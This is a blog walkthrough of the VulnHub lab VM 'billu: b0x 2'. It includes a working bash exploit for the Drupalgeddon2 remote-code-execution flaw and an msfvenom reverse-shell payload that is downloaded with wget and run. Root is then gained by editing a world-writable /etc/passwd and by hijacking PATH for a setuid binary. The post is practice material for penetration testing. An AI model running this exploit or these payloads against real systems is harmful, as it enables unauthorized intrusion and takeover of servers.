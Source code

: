 ```yaml
---
layout: post
title: "billu: b0x 2 Walkthrough"
subtitle: "Man, I Need a New Hobby"
date: 2018-09-22 18:25:01 +0000
last_modified_at: 2018-09-22 18:37:16 +0000
category: Walkthrough
tags: [VulnHub, billu]
comments: true
image:
  feature: billu-b0x-2-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/soap-bubble-colorful-ball-824558/
---
```


This post documents the complete walkthrough of billu: b0x 2, a boot2root [VM][1] created by [Manish Kishan Tanwar][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Try this if you want an OSCP refresher that's not too difficult.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e6:3e:0d:ca:5c:3e:57:f8:1d:e6:e6:c5:3b:b3:67:b5 (DSA)
|   2048 ee:ef:3e:03:3a:24:f8:9f:35:4f:3a:9a:6f:64:a5:f5 (RSA)
|   256 af:60:d8:cb:90:08:63:4b:d3:7b:04:d3:7c:db:cf:bf (ECDSA)
|_  256 c0:56:96:d2:62:52:ea:9f:7f:d8:2a:7a:6b:1b:bd:56 (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-methods:
|_  Supported Methods: GET POST HEAD OPTIONS
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/
| /user/password/ /user/login/ /user/logout/ /index.php/admin/
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Home | --==[[ Billu b0x 2 - with love from indishell Lab ]]==--
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42940/udp  status
|_  100024  1          45103/tcp  status
8080/tcp  open  http    syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
45103/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds a couple of open ports. Nothing unusual. Let's take a look at the web-related ones. The metadata in the HTML source tells me I'm looking at a Drupal 8 installation.

![9cbbd925.png](/assets/images/posts/billu-b0x-2-walkthrough/9cbbd925.png)

### Drupalgeddon

Suffice to say, the first thought that comes to my mind is Drupalgeddon. Since this is Drupal 8, I'll give EDB-ID [44448](https://www.exploit-db.com/exploits/44448/) a shot. It's a proof-of-concept code written in Python that tests for remote command execution. It writes a file and then checks for the file's existence. In any case, it's easy to rewrite it in `bash`. i.e. wrap the script around `curl` and re-purpose it to take in an argument—any shell command.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

RHOST=192.168.30.129
URL="http://$RHOST/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
CMD=$1

STATUS=$(curl -s \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode "form_id=user_register_form" \
              --data-urlencode "_drupal_ajax=1" \
              --data-urlencode "mail[#post_render][]=exec" \
              --data-urlencode "mail[#type]=markup" \
              --data-urlencode "mail[#markup]=$CMD" \
              $URL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Exploit Successful"
else
  echo "[!] Exploit Failed"
fi
```

Time to run my exploit script.

_On my exploit script terminal_

![1bc5fcfa.png](/assets/images/posts/billu-b0x-2-walkthrough/1bc5fcfa.png)

_On my `nc` listener_

![95bbd761.png](/assets/images/posts/billu-b0x-2-walkthrough/95bbd761.png)

You can see the remote command executed successfully.

Next, I'll make use of `wget` to transfer a reverse shell (generated by `msfvenom`), make it executable with `chmod`, and then execute it.

You can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

_On my exploit script terminal_

![cd2272c1.png](/assets/images/posts/billu-b0x-2-walkthrough/cd2272c1.png)

_On my SimpleHTTPServer terminal_

![743c9c3d.png](/assets/images/posts/billu-b0x-2-walkthrough/743c9c3d.png)

_On my `nc` listener_

![0e917b2f.png](/assets/images/posts/billu-b0x-2-walkthrough/0e917b2f.png)

I got shell.

### Privilege Escalation

Long story short. Once you have a low-privilege shell, there are two ways to gain `root` privileges.

***Method 1: world-writable `/etc/passwd`***

How do you know `/etc/passwd` is world-writable? Simple.

![07134282.png](/assets/images/posts/billu-b0x-2-walkthrough/07134282.png)

So what if `/etc/passwd` is world-writable? What can you do with it? Enough to be dangerous.

![2a7227b9.png](/assets/images/posts/billu-b0x-2-walkthrough/2a7227b9.png)

`su` to `toor`. Password is `toor`.

![1a61b268.png](/assets/images/posts/billu-b0x-2-walkthrough/1a61b268.png)

***Method 2: `/opt/s` is `setuid` to `root`***

How do you know `/opt/s` is `setuid` to `root`? Simple.

![6ce80208.png](/assets/images/posts/billu-b0x-2-walkthrough/6ce80208.png)

Check out the strings in the executable. This is classic—hijacking the default executable search path.

![d7faf243.png](/assets/images/posts/billu-b0x-2-walkthrough/d7faf243.png)

`scp` is not specified in absolute path. We can easily trick the shell to search for a `PATH` we specified first. Heck, we don't even have to compile any code. Any shell script that start with `#!` will suffice, as long as it's called `scp`.

![5d60d36e.png](/assets/images/posts/billu-b0x-2-walkthrough/5d60d36e.png)

:dancer:

### Afterthought

A good way to kill time.

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
